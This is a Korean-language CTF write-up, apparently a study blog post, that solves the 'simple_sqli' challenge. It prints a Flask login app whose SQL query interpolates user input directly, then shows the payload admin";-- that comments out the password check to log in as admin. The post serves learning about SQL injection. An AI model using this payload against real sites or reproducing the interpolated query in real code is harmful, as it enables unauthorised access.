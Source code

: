 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>[웹 프로젝트] SQL Injection simple_sqli Write-Up</h1>
</body>
<br>
<br>
</html>

SQL Injection을 공부해보고자 관련 문제를 풀어보고자 한다.
![image](https://github.com/user-attachments/assets/5bb23888-8e4d-4f02-a772-b61eec2eb2fe)
먼저 서버에 접속해 보면 로그인이 가능한것 같다.
![image](https://github.com/user-attachments/assets/31386867-e21e-4c36-9009-d8008dc585cc)
로그인창에 들어가보자. 특별한건 없어 보인다. 

그럼 문제 파일을 받아아보자.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```
코드를 살펴보면
'''python
try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'
```
이 부분에서 FLAG를 열 수 있는것 같다.
```python
if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```
밑으로 쭉 코드를 더 읽어보니 admin으로 로그인하면 FLAG를 얻을 수 있을 것으로 보인다.
```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```
로그인 id와 password를 DB로 넘기는 코드를 자세히 살펴보니 userdi로 입력한 값은 userid로 가고 userpassword로 입력한 값은 userpassword로 가서 인증을 요구한다는 것을 알 수 있다.
이때 admin이라는 id를 알고 있으니 id 창에 ``` admin";-- ```을 추가하여 아래와 같이 주석처리 한다면 
```python
select * from users where userid="admin";--" and userpassword="{userpassword}"'
```
이렇게 SQL문이 DB로 전달될 것이다.
여기서 DB가 전달 받은 주석처리가 된 SQL문은 
```python
select * from users where userid="admin"
```
까지인 것이니 admin";--으로 로그인이 가능하게 된다.

![image](https://github.com/user-attachments/assets/323873f7-efe5-40e9-a1d7-a853851914d1)

![image](https://github.com/user-attachments/assets/e8dc76cd-18d8-4c84-934b-ae6d9be34bed)

플레그를 얻었다!!

